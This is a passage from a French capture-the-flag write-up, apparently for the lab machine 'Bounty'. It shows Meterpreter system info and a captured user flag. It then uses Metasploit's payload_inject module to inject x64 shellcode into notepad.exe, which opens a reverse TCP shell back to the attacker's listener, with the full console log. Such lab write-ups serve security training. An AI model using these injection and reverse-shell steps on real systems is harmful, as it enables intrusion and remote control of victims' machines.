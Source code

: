 ```plain
SeIncreaseWorkingSetPrivilege

meterpreter > sysinfo
Computer        : BOUNTY
OS              : Windows 2008 R2 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

Cet accès nous permet d'accéder au flag utilisateur (e29ad89891462e0b09741e3082f44a2f).  

Comme le système est un x64 et que la session Meterpreter tourne en x86 on va l'*upgrader* à l'aide du module *payload\_inject* qui va ici lancer un notepad.exe et injecter un shellcode x64 pour ouvrir une autre session Meterpreter dans la bonne architecture.  

```plain
msf exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   NEWPROCESS  false            no        New notepad.exe to inject to
   PID                          no        Process Identifier to inject of process to inject payload.
   SESSION     3                yes       The session to run this module on.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.21      yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows

msf exploit(windows/local/payload_inject) > set NEWPROCESS true
NEWPROCESS => true
msf exploit(windows/local/payload_inject) > exploit

[*] Started reverse TCP handler on 10.10.14.21:4444 
[*] Running module against BOUNTY
[*] Launching notepad.exe...
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 1988
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] Meterpreter session 4 opened (10.10.14.21:4444 -> 10.10.10.93:49163) at 2018-06-30 16:27:48 +0200
```
